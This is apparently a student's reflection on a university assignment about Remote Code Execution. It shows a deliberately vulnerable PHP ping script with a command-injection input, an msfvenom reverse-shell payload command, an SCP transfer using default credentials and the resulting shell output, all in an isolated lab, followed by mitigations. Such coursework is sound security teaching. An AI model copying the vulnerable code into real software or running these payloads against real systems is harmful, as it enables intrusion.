






**SWS304 — Advanced Web Attacks & Exploitations**

Assignment 01  |  Spring 2026  |  CST, Phuentsholing

**Observations and Learning Reflections**

**Remote Code Execution — From Vulnerability to Exploitation**

**1\. What I Learned About Remote Code Execution**

Before this assignment, I had a general awareness that web applications could be exploited, but I did not fully appreciate how something as simple as a missing input check could hand an attacker complete control of a server. Working through the material on Remote Code Execution (RCE) gave me a much more concrete understanding of both what it is and why it is so widely feared in the security community.

RCE is a class of vulnerability where an attacker is able to execute arbitrary commands or code on a remote server without having physical access to the machine. What makes this particularly alarming is that the attacker does not need to break any encryption or bypass complex authentication — in many cases, they simply need to find one place where the application passes user input directly to the operating system. From there, the entire server is effectively in their hands.

*I learned that RCE is not just about stealing data. An attacker with RCE can install malware, create persistent backdoors, delete critical files, pivot to other machines on the network, or weaponise the server for further attacks — all without ever touching the hardware.*

What struck me most was how the impact scales. A single vulnerable parameter on one web page can result in full system compromise. This is why RCE is consistently ranked among the most critical vulnerability classes in frameworks like OWASP and CVSS.

**1.1  How RCE Vulnerabilities Arise**

Through my research and practical work, I observed that RCE does not usually come from one spectacular flaw — it typically arises from a failure of basic secure coding practices. The three most common pathways I studied were:

Command Injection is the most direct route. When a web application takes user input and passes it to a system function like shell\_exec() or system() without sanitisation, the attacker simply appends shell operators to inject extra commands. The server has no way to distinguish the attacker's injected code from the developer's intended command.

File Upload Vulnerabilities occur when an application allows users to upload files without checking what type of file is being submitted. If a PHP web shell can be uploaded and accessed through a URL, the web server will execute it — giving the attacker a ready-made remote command interface.

Insecure Deserialization is a more complex pathway. When an application processes serialised data from an untrusted source, a carefully crafted malicious object can trigger code execution during the unpacking process, often bypassing authentication entirely.

**1.2  Analysing a Real Vulnerable PHP Application**

To make this concrete, I analysed a deliberately vulnerable PHP script — ping.php — which takes a hostname from a URL parameter and passes it directly to shell\_exec() to run a ping command:

\<?php

  $host \= $\_GET\['host'\];

  $output \= shell\_exec('ping \-c 3 ' . $host);

  echo '\<pre\>' . $output . '\</pre\>';

?\>

Looking at this code, I could immediately see the problem: there is no validation of what the user puts into the 'host' parameter. The developer presumably intended users to type an IP address or hostname. But the shell does not care what the developer intended — it will execute whatever string it is given.

When I considered what an attacker would enter, it became obvious. By appending a semicolon followed by any command, the attacker terminates the ping and runs something entirely different:

Attacker input:           192.168.1.1; ls \-la

Command the server runs:  ping \-c 3 192.168.1.1; ls \-la

Result: ping runs normally, then ls \-la lists the server's files.

This was a clear illustration of how a single unvalidated parameter turns a harmless utility into a full remote command interface. The fix I identified was either to use PHP's escapeshellarg() function — which wraps input in quotes and escapes special characters — or to validate the input with a strict regex that only accepts a valid IP address format and rejects everything else.

Fix 1:  $host \= escapeshellarg($\_GET\['host'\]);

Fix 2:  if (\!preg\_match('/^\\d{1,3}(\\.\\d{1,3}){3}$/', $host)) {

            die('Invalid host.');

        }

*I learned that the fix is never just 'validate input' as a vague idea. It requires a specific mechanism — either escaping special characters so the shell cannot interpret them, or rejecting any input that does not match an exact expected pattern.*

**2\. What I Observed During the Practical Lab**

The practical component of this assignment was where my understanding shifted from theoretical to real. Setting up the lab environment and actually executing a reverse shell against a vulnerable machine made the concepts from the first section feel immediate and concrete in a way that reading alone does not.

**2.1  Setting Up the Lab Environment**

I used VirtualBox to run two virtual machines side by side on my host machine. Kali Linux served as the attacker machine, and Metasploitable2 served as the intentionally vulnerable target. Both VMs were placed on a Host-Only network (192.168.56.0/24), which meant they could communicate with each other without exposing the attack traffic to any real network.

My Kali machine was assigned the IP address 192.168.56.4, and Metasploitable2 was at 192.168.56.5. Before beginning any exploitation, I ran an Nmap service version scan against the target to understand what was running:

nmap \-sV 192.168.56.5

The scan results were eye-opening. Metasploitable2 had 22 open ports running intentionally outdated and vulnerable services — FTP (vsftpd 2.3.4, which has a known backdoor), Telnet, an unprotected MySQL instance, a bindshell on port 1524 that literally accepts any connection as root, and much more. I observed that in a real environment, a machine with this kind of exposure would be compromised very quickly. This reinforced why network hardening and attack surface reduction matter so much.

**2.2  Creating the Payload with msfvenom**

The next stage was creating the reverse shell payload. I used msfvenom, a standalone payload generator that comes with the Metasploit Framework. A reverse shell payload works by instructing the victim machine to reach out and connect back to the attacker — which is useful for bypassing firewalls that block inbound connections.

I generated a Linux ELF executable payload using the following command:

msfvenom \-p linux/x86/shell\_reverse\_tcp LHOST=192.168.56.4 LPORT=4444 \-f elf \-o shell.elf

Watching the output, I noticed something interesting — msfvenom automatically selected the Linux platform and x86 architecture from the payload name, since I had not specified them explicitly. The final payload was just 152 bytes as an ELF file, which surprised me. I had imagined exploits would be much larger. The compactness of the payload is part of what makes it effective — it is small enough to be inconspicuous and easy to transfer.

*I learned that the 'reverse' in reverse shell is a deliberate design choice, not just a technical detail. By having the victim connect outward to the attacker rather than the attacker connecting inward, the payload bypasses many common firewall configurations that block incoming connections but allow outgoing ones.*

**2.3  Configuring the Metasploit Listener**

Before executing the payload on the target, I needed to set up a listener on my Kali machine to catch the incoming connection. I used Metasploit's exploit/multi/handler module, which is a generic listener designed to work with any payload.

I launched msfconsole and searched for the handler module to find it:

I then selected the module and configured it to match the payload I had generated — the same payload type, the same LHOST, and the same LPORT:

One thing I observed here was the importance of the payload, LHOST, and LPORT all matching exactly between msfvenom and the handler. If any of these are different, the listener will not recognise or accept the incoming connection. I actually experienced this earlier in the lab when port 4444 was already in use by a previous Metasploit session, causing a bind error. I had to kill the old process before the handler would start correctly — a small but practical lesson in process management.

**2.4  Transferring and Executing the Payload**

With the listener running, I needed to get the payload onto the target machine and execute it. Since Metasploitable2 has SSH enabled with default credentials (msfadmin/msfadmin), I transferred the file using SCP. Kali's newer OpenSSH version required legacy key algorithm flags to connect to Metasploitable2's older SSH server:

scp \-o HostKeyAlgorithms=+ssh-rsa \-o PubkeyAcceptedKeyTypes=+ssh-rsa \\

    shell.elf msfadmin@192.168.56.5:/tmp/shell.elf

After transferring the file, I SSH'd into the target machine, made the payload executable, and ran it:

The moment I ran /tmp/shell.elf, the terminal on Metasploitable2 appeared to freeze. I initially thought something had gone wrong — but this is exactly what is supposed to happen. The payload was executing silently in the background, and the terminal hung because the process was open, waiting. The real action was happening on the other side.

*Observing the terminal hang was a meaningful moment. It made me realise that from the victim's perspective, nothing looks obviously wrong — the shell just seems unresponsive. A real victim running this payload would have no immediate indication that their machine had been compromised.*

**2.5  Receiving the Reverse Shell**

Switching to the msfconsole window on Kali, I saw the confirmation I had been working toward:

The session had opened. I now had an interactive command shell running on Metasploitable2, controlled entirely from my Kali machine. I ran a series of commands to confirm the access:

whoami    \=\>  msfadmin

id        \=\>  uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm)...

hostname  \=\>  metasploitable

uname \-a  \=\>  Linux metasploitable 2.6.24-16-server

ls /      \=\>  bin  boot  cdrom  dev  etc  home  lib  ...

Seeing the filesystem of the target machine listed in my terminal was the clearest possible demonstration that RCE had succeeded. I could read files, write files, run any command — the machine was fully under my control without any physical access and with no visible indication to the victim that anything was wrong.

**3\. What I Learned About Defence and Mitigation**

Completing the exploitation side of this assignment made the defensive material much more meaningful. Understanding exactly how an attack works — step by step, tool by tool — gives you a much stronger appreciation of why each mitigation strategy matters. Each defence I studied maps directly to something I observed during the practical.

**3.1  Input Validation and Sanitisation**

The entire vulnerability in ping.php existed because one line of code passed user input directly to the shell without checking it. Adding escapeshellarg() or a regex whitelist would have completely prevented the attack I demonstrated. I now understand that input validation is not just a best practice checkbox — it is the single most important barrier between a user interface and the operating system beneath it.

**3.2  Avoiding Dangerous Functions**

During my analysis, I learned that PHP has an entire class of functions — shell\_exec(), system(), exec(), passthru(), eval() — that pass strings directly to the operating system or interpreter. The very existence of these functions in code that touches user input is a warning sign. In most cases, there is a safer library-based alternative that accomplishes the same goal without exposing a shell. I would now treat any use of these functions as requiring a specific security justification.

**3.3  Principle of Least Privilege**

When I received the reverse shell, I was operating as msfadmin — a non-root user. This meant that while I had significant access, certain privileged operations were blocked. Had the web server been running as root, the impact would have been far worse. I observed directly why the principle of least privilege matters: limiting what a process can do limits what an attacker can do if they compromise that process.

**3.4  Web Application Firewall**

A WAF would have been able to detect the command injection payload — the semicolon followed by a shell command is a recognisable pattern that signature-based rules can catch. While a WAF is not a substitute for fixing the underlying vulnerability, it provides an additional layer that can block or alert on attacks even when application code is flawed. I now think of a WAF as a safety net rather than a primary defence.

**3.5  Network Segmentation and Attack Surface Reduction**

Looking at the Nmap scan results from Metasploitable2, I observed 22 open ports — many of which served no purpose in a realistic web application scenario. In a real hardened environment, a web server would expose only the ports it needs (typically 80 and 443\) and nothing else. Every unnecessary open port is an additional potential entry point. Reducing the attack surface means that even if one service has a vulnerability, the attacker has fewer options.

*The most important thing I took from the defensive section is that security is layered. No single control is sufficient on its own. Input validation stops the injection. Least privilege limits the damage if injection succeeds. A WAF catches patterns that slip through. Network segmentation limits lateral movement. Defence in depth means an attacker has to defeat multiple independent barriers, not just one.*

**4\. Overall Reflection**

This assignment fundamentally changed how I think about web application security. Before the practical lab, I understood RCE as a concept — a type of vulnerability that was serious and worth preventing. After setting up the environment, generating a payload, configuring a listener, transferring and executing the file, and watching an interactive shell open on a machine I had no physical access to, I understand it as a process — a chain of specific, learnable steps that a real attacker would follow.

What surprised me most was how accessible the tooling is. Metasploit and msfvenom are professional-grade tools, but they are well-documented, free, and included in Kali Linux by default. The commands I used were not exotic or highly technical — they are standard penetration testing workflow. This reinforced for me that the barrier to entry for an attacker is lower than many developers assume, which makes secure coding practices all the more critical.

I also gained a new perspective on what 'secure' actually means in practice. It is not enough to know that you should validate input — you need to know specifically what function to use, what format to enforce, and what edge cases to consider. The difference between a vulnerable application and a secure one is often a single line of code.

Going forward, I will approach any code that touches user input with a much more critical eye. I will look for dangerous functions, missing validation, and overly permissive configurations — not as theoretical risks, but as the specific mechanisms I now know attackers actively look for and exploit.

